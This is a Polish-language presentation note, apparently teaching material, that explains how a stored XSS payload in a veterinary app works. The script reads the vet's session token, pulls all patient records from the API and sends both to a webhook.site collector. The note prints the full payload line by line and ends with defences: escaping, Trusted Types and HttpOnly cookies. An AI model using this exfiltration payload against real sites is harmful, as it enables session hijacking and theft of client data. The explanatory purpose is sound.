

# Jak XSS wykrada i wysyła dane (notatka do prezentacji)

Notatka wyjaśnia **co** wstrzyknięty skrypt kradnie, **dokąd** to wysyła i **dlaczego**
przeglądarka mu na to pozwala. Payload wykonuje się w sesji weterynarza, gdy ten
otworzy notatkę zawierającą ``.

## TL;DR

Kiedy weterynarz wyświetla złośliwą notatkę, skrypt napastnika:
1. **czyta token sesji** weterynarza z `localStorage`,
2. **pobiera wszystkich jego pacjentów** z API jego własnym tokenem,
3. **wypycha jedno i drugie** na serwer napastnika (tu: `webhook.site`).

Wszystko dzieje się w tle, w ciągu milisekund, bez interakcji ofiary.

## Co konkretnie jest kradzione

| Łup | Skąd | Dlaczego groźne |
| --- | --- | --- |
| **Token JWT sesji** | `localStorage.getItem('token')` | To cała sesja weterynarza. Napastnik może się nim podszyć do wygaśnięcia tokenu — logować się jako on, czytać/pisać. |
| **Dane wszystkich pacjentów** | `GET /vets/panel` (z tokenem ofiary) | Pełna lista klientów + psów + pomiarów. Skrypt czyta dokładnie to, do czego weterynarz ma dostęp. |

Kluczowe: skrypt nie „łamie" niczego — **używa uprawnień ofiary**. Działa w jej
przeglądarce, z jej origin, z jej tokenem, więc dla backendu to wygląda jak
normalne żądanie zalogowanego weterynarza.

## Przepływ danych



## Payload — linia po linii

```js
const t = localStorage.getItem('token');            // 1. KRADZIEŻ TOKENU (z localStorage)
fetch('https://vet-breath-production.up.railway.app/vets/panel', {
  headers: { Authorization: 'Bearer ' + t }          // 2. użycie tokenu ofiary
})
  .then(r => r.json())
  .then(d => {                                        // 3. d = wszyscy pacjenci weterynarza
    console.log('DATA: dane zwierzakow...', d);
    navigator.sendBeacon(                             // 4. WYSYŁKA na serwer napastnika
      'https://webhook.site/a8d5aa09-268f-45c5-ab42-311d629d29e8',
      JSON.stringify({ stolen_token: t, pets: d })    //    payload = token + dane
    );
  })
  .catch(e => console.error('exfil failed:', e));
```

## Co ląduje na webhook.site

Napastnik widzi w swoim panelu żądanie **POST** z ciałem:

```json
{
  "stolen_token": "eyJhbGciOiJIUzI1Ni...",   // sesja weterynarza
  "pets": {
    "clients": [ { "email": "...", "full_name": "..." } ],
    "dogs":    [ { "name": "Tosia", "breed": "...", "owner_email": "...", "latest_bpm": 35, ... } ]
  }
}
```

To jest pierwszy skok: `przeglądarka ofiary → collector napastnika`. W prawdziwym
ataku collector przekazałby to dalej (mail, baza, Slack) — samego maila nie da się
wysłać z przeglądarki, więc „→ email" to zawsze osobny krok po stronie napastnika.

## Dlaczego przeglądarka na to pozwala (sedno lekcji)

- **Odczyt** (`fetch /vets/panel`) idzie na **ten sam origin/backend**, do którego ofiara
  jest zalogowana — Same-Origin Policy na to pozwala, bo to jej własne dane.
- **Wysyłka** (`sendBeacon` na webhook.site) idzie na **obcy origin** — i tu ważne:
  **SOP/CORS blokują tylko ODCZYT odpowiedzi cross-origin, nie WYSŁANIE żądania.**
  Napastnik nie potrzebuje czytać odpowiedzi z webhook.site — dane już wysłał w ciele.
- `navigator.sendBeacon` jest do tego idealny: POST „wyślij i zapomnij", nie czeka na
  odpowiedź, przechodzi nawet przy zamykaniu strony.

**Wniosek:** obie połówki są legalne z punktu widzenia przeglądarki. Dlatego jedyną
skuteczną obroną jest **nie dopuścić do wykonania skryptu** — escapowanie (interpolacja
Angulara) albo Trusted Types blokujące surowy sink `innerHTML`.

## Dodatkowa uwaga: token w localStorage

Token trzymany w `localStorage` jest **w pełni czytelny dla JavaScriptu**, więc XSS
kradnie go trywialnie. Token w cookie `HttpOnly` byłby niewidoczny dla skryptu —
skrypt mógłby go użyć (fetch z `credentials`), ale nie mógłby go wykraść i unieść.
To argument za `HttpOnly` cookies zamiast tokenu w `localStorage`.
```
